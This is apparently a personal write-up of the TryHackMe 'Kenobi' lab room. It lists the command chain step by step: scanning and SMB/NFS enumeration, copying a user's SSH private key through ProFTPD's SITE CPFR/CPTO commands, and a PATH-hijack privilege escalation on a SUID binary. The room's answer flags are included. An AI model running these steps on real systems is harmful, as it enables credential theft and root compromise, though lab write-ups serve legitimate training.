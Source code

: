 # TryHackMe
  https://tryhackme.com/room/kenobi
  
<img src="kenobi.png"
     alt="Kenobi_Marker_icon"
     style="float: left; margin-right: 10px;" />
    
    
# Task 1 Deploy the Vulnerable Machine
  Connected to Kali and setup vpn in teminal
  
  ```sudo openvpn /home/kali/Downloads/computershane\(1\).ovpn```
  
  Attack box IP-```10.10.152.93```
  
  Host IP-```10.2.70.52```
  
  ran nmap
  
  ```nmap -A -T4 10.10.152.93```
  
  Scan the machine with nmap, how many ports are open?
  
  Answer-```7```
  
# Task 2   Enumerating Samba for shares

Using nmap we can enumerate a machine for SMB shares.

Nmap has the ability to run to automate a wide variety of networking tasks. There is a script to enumerate shares!

```nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.152.93```

Using the nmap command above, how many shares have been found?

Answer-```3```

Next I connected to the share

```smbclient //10.10.152.93/anonymous```

Once you're connected, list the files on the share. What is the file can you see?

I ran dir to list the contents of the share

```dir```

Answer- ```log.txt```

Recursively downloaded share by 

```smbget -R smb://10.10.152.93/anonymous```

What port is FTP running on?

Answer-```21```

using nmap to enumerate this

```nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.152.93```

What mount can we see?

Answer-```/var```

# Task 3 Gain initial access with ProFtpd

  using nc to connect to the machine on port 21

  ```nc 10.10.152.93 21```

  What is the version?

  Answer-```1.3.5```

  Using Searchsploit to find particular software version exploits

  How many exploits are there for the ProFTPd running?

  Answer-```3```

We're now going to copy Kenobi's private key using SITE CPFR and SITE CPTO commands. This is done as we have access to /var.

```SITE CPFR /home/kenobi/.ssh/id_rsa```

```SITE CPTO /var/tmp/id_rsa```

Lets mount the /var/tmp directory to our machine

```mkdir /mnt/kenobiNFS```

```mount 10.10.152.93:/var /mnt/kenobiNFS  ```

```ls -la /mnt/kenobiNFS```

With the network mount on our machine, we can then go to /var/tmp to retrieve the private key

```cp /mnt/kenobiNFS/tmp/id_rsa . ```

next we need t set permissions for rw and execute,

```sudo chmod 600 id_rsa```

```ssh kenobi@10.10.152.93 -i id_rsa```

What is Kenobi's user flag (/home/kenobi/user.txt)?

Answer-```d0b0f3f53b6caa532a83915e19224899```

# Task 4 Privilege Escalation with Path Variable Manipulation

To search the a system for these type of files run the following: ```find / -perm -u=s -type f 2>/dev/null```

What file looks particularly out of the ordinary? 

Answer-```/usr/bin/menu```

Run the binary, how many options appear?

Answer-```3```

next using string command to read strings in the binary

```curl -I localhost```

```uname -r```

```ifconfig```

```echo /bin/sh > curl```

```chmod 777 curl```

```export PATH=/tmp:$PATH```

```/usr/bin/menu```

I entered choice ```1``` and boom had root acccess.

What is the root flag (/root/root.txt)?

```cat /root/root.txt```

Answer-```177b3cd8562289f37382721c28381f02```










